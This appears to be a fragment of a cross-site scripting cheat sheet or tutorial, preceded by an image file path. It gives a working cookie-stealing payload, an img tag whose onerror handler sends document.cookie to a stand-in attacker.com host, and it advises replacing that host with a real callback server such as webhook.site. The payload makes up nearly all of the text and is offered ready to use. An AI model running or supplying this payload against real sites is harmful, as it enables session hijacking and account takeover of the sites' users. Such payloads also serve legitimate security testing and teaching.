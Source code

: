 
- `<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">`
- Replace `attacker.com` with your callback server. You can use `https://webhook.site`.
